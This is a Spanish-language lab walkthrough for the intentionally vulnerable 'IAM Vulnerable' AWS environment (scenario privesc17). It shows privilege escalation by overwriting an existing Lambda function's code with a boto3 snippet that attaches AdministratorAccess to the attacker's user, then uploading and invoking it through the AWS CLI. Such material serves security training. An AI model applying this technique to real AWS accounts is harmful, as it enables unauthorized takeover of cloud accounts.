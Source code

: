```yaml
---
description: 'Lab: IAM vulnerable'
---
```


# EditExistingLambdaFunctionWithRole

## Laboratorio

En este apartado se observará el ejemplo utilizando el laboratorio IAM vulnerable con el escenario privesc17.  Para la correcta elevación de privilegios, depende de la interacción de otro usuario o de que la función actualizada sea ejecutada.

{% embed url="https://bishopfox.com/blog/privilege-escalation-in-aws" %}
Lab: IAM - Vulnerable | Escenario: privesc17
{% endembed %}

Un atacante con el permiso <mark style="color:green;">**lambda:UpdateFunctionCode**</mark> podría actualizar el código en una función Lambda existente con un rol de IAM adjunto para que importara la biblioteca de AWS relevante en ese lenguaje de programación y la usara para realizar acciones en nombre de ese rol.

### Configuración Inicial

Usuario del laboratorio: privesc17- EditExistingLambdaFunctionWithRole-user con los permisos:

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

La cuenta de AWS debe contener una función Lambda existente, con un rol adjunto que tenga el permiso <mark style="color:green;">iam:AttachUserPolicy.</mark>

Tambien es necesario tener en la infraestructura de pruebas un lambda ya configurado con cualquier funcionalidad con el rol a cual se va a asociar:

<figure><img src="../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Posterior mente generar llaves e acceso desde cuenta administrador para interactuar con el usuario en AWS CLI y configurar un perfil para el usuario del laboratorio

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>



### Explotación

En este escenario, se va a utilizar el privilegio del usuario <mark style="color:green;">**lambda:UpdateFunctionCode**</mark> para actualizar una función de lambda existente y añadirle código malicioso encargado de adjuntar una política de altos privilegios a nuestro usuario inicial.

La función lambda maliciosa es la siguiente.

{% code title="lambda_function.py" overflow="wrap" %}
```python
import boto3
def lambda_handler(event, context): 
	client = boto3.client('iam')
	response = client.attach_user_policy(UserName='privesc17- EditExistingLambdaFunctionWithRole-user', 
	PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
	return response
```
{% endcode %}

Para subir el archivo de la nueva función lambda se usará el permiso <mark style="color:green;">**lambda:UpdateFunctionCode**</mark> es necesario llamar el archivo <mark style="color:green;">**lambda\_function.py**</mark> y luego comprimir el archivo en formato zip con el nombre <mark style="color:green;">**function.zip.**</mark> Después ejecutar el código:

{% code overflow="wrap" %}
```
aws lambda update-function-code --function-name FuncionHelloWorld --zip-file fileb://function.zip --profile privesc17
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

Cuando se ejecuta la función, se elevan los privilegios del atacante. Si el atacante tiene el permiso <mark style="color:green;">**lambda:InvokeFunction**</mark>, entonces es posible simplemente invocar la función directamente. De lo contrario, ocurrirá cuando otro usuario o servicio ejecute la función. En el siguiente ejemplo, otro usuario ejecuta la función.

El siguiente comando muestra a otro usuario de AWS invocando la lambda.

```
aws lambda invoke --function-name FuncionHelloWorld output.txt --profile other
```

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

Finalmente ejecutando iam list attached user policies, podemos observar como el usuario inicial a ganado permisos de administrador:

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>




